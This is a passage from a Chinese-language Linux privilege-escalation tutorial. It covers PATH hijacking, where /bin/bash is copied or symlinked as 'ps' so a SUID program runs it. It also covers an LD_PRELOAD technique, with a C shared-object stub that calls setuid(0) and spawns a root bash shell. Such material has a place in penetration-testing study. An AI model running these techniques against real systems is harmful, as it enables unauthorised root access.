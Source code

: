 符号链接：

```
ln -s /bin/bash ps
```

 或者直接cp

```bash
cp /bin/bash ps
```

总的来说这种情况适用于，给普通用户分配了个可执行程序，且该程序有suid权限，我们又知道该程序会调用哪些命令，那么就可以结合PATH来进行提权

当然拉~这个提权有点鸡肋就是本地用户才可以，如果是web权限用户基本上是不能执行的。

# 0x0A **利用LD_PRELOAD环境变量进行提权**

LD_PRELOAD是Linux下的一个环境变量，程序运行时都会加载一些so文件，类似于windows下程序加载dll，而LD_PRELOAD可以指定程序运行前加载的动态连接库。
如果sudo -l发现可用的命令不好直接进行提权，可尝试此方法

下面以find为例（find 可以直接提权）

test.c代码如下：

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
 
void _init(){
        unsetenv("LD_PRELOAD");
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

![image-20231120232430328](assets/image-20231120232430328.png)
